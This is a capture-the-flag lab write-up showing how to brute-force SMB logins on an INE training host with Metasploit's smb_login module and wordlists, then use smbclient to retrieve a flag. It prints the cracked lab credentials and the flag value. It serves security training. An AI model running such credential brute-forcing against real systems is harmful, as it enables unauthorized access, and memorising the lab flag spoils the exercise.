






# SMB Login Brute Force with Metasploit

## Challenge Title
Brute Force SMB Credentials and Extract a Flag

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Objective

Use Metasploit to brute force SMB credentials using user and password wordlists. Once valid credentials are found, access the SMB share and retrieve the flag.

---

## Tools Used

- Metasploit (`msfconsole`)
- Wordlists (`users.txt` and `unix_passwords.txt`)
- `smbclient` to access shares after cracking

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Launch Metasploit and Load SMB Login Module

```bash
msfconsole -q
use auxiliary/scanner/smb/smb_login
set RHOSTS target.ine.local
```


### 🔹 Step 2: Create a User Wordlist

Created `users.txt` with common usernames:
```bash
josh
bob
nancy
alice
```


### 🔹 Step 3: Set Wordlists in Metasploit
```bash
set USER_FILE users.txt
set PASS_FILE /root/Desktop/wordlists/unix_passwords.txt
run
```


### 🔹 Step 4: Valid Credentials Found
```yaml
josh : purple
```


### 🔹 Step 5: Access SMB Share Using `smbclient`
```bash
smbclient //target.ine.local/josh -U josh
```
Password: purple
```bash
ls
get flag2.txt
```


### 🔹 Step 6: View the Retrieved Flag
```bash
cat flag2.txt
```
Flag:
```wasm
FLAG2{a744a6f69c0747398f2648e10f32b8d4}
```
Also contains a hint for the next step:
Psst! I heard there is an FTP service running. Find it and check the banner.


## Conclusion
This challenge demonstrates how password spraying and brute-force attacks using Metasploit can help identify weak credentials on SMB services — which in real environments can lead to full network compromise.

## Files Included
- `users.txt`: Wordlist used for usernames
- `unix_passwords.txt`: Wordlist used for passwords
- Screenshots: 1.png → 6.png (steps of the challenge)
